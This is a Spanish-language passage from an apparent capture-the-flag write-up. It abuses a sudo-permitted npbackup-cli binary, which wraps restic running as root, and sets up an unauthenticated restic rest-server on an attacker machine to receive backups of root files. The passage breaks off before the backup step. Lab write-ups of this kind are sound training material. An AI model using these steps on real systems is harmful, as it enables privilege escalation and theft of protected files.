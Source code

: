 Vemos que hay un archivo de configuracion bastante interesante en esta ruta:

```
-rw-rw-r-- 1 root root 2893 Jun 18 11:16 /home/marco/npbackup.conf
```

Si nosotros cargamos dicho archivo de configuracion con el binario con el que podemos ejecutar como `sudo` para probar a ejecutar comandos, veremos lo siguiente:

```shell
sudo /usr/local/bin/npbackup-cli -c /home/marco/npbackup.conf --raw "whoami"
```

Info:

```
2025-09-19 16:08:39,839 :: INFO :: npbackup 3.0.1-linux-UnknownBuildType-x64-legacy-public-3.8-i 2025032101 - Copyright (C) 2022-2025 NetInvent running as root
2025-09-19 16:08:39,868 :: INFO :: Loaded config 4E3B3BFD in /home/marco/npbackup.conf
2025-09-19 16:08:39,878 :: INFO :: Running raw command: whoami
unknown command "whoami" for "restic"
2025-09-19 16:08:41,253 :: ERROR :: unknown command "whoami" for "restic"

2025-09-19 16:08:41,254 :: ERROR :: Raw command failed:
unknown command "whoami" for "restic"

2025-09-19 16:08:41,254 :: INFO :: Runner took 1.376973 seconds for raw
2025-09-19 16:08:41,255 :: ERROR :: Backend finished with errors.
2025-09-19 16:08:41,255 :: ERROR :: Operation finished
2025-09-19 16:08:41,261 :: INFO :: ExecTime = 0:00:01.424338, finished, state is: errors.
```

Vemos que por detras esta utilizando el binario `restic`, y como se esta ejecutando como `sudo`, si buscamos en `GTFOBins` veremos lo siguiente:

URL = [GTFOBins restic](https://gtfobins.github.io/gtfobins/restic/#sudo)

Vemos que se puede ejecutar como `sudo` sin que pierda los privilegios del mismo, por lo que podremos realizar un `backup` de cualquier archivo gracias a `restic` y que se esta ejecutando como `root`, pero para ello tendremos que establecer un repo como servidor donde queremos mandarnos dicho `backup`, esto es parecido a la maquina `artificial` de `HTB`.

Vamos a inicializar un repositorio y un servidor de `restic` en nuestra maquina atacante de esta forma:

```shell
go install github.com/restic/rest-server/cmd/rest-server@latest
export PATH=$PATH:$(go env GOPATH)/bin
mkdir /opt/restic-repos
rest-server --path /opt/restic-repos --no-auth --listen :6666
```

Info:

```
Data directory: /opt/restic-repos
Authentication disabled
Append only mode disabled
Private repositories disabled
Group accessible repos disabled
start server on [::]:6666
```

